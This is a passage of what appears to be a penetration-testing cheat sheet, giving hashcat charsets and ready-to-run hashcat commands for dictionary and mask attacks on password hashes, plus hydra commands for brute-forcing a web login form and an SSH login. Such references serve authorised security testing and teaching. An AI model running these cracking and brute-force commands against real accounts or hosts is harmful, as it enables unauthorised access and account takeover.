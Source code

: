 | Charset | Description |
| --- | --- |
| \?l | abcdefghijklmnopqrstuvwxyz |
| \?u | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| \?d | 0123456789 |
| \?s | \!\"\#\$\%\&\'\(\)\*\+\,\-\.\/\:\;\<\=\>\?\@\[\]\^\_\`\{\|\}\~ |
| \?a | \?l\?u\?d\?s |
| \?b | 0x00 - 0xff |

Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status --optimized-kernel-enable B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Brute force a hash with a specified placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

<p id="hydra"/>

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -l admin -P rockyou.txt somesite.com http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!" -o hydra_results.txt
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -L users.txt -P rockyou.txt 192.168.8.5 ssh -o hydra_results.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).
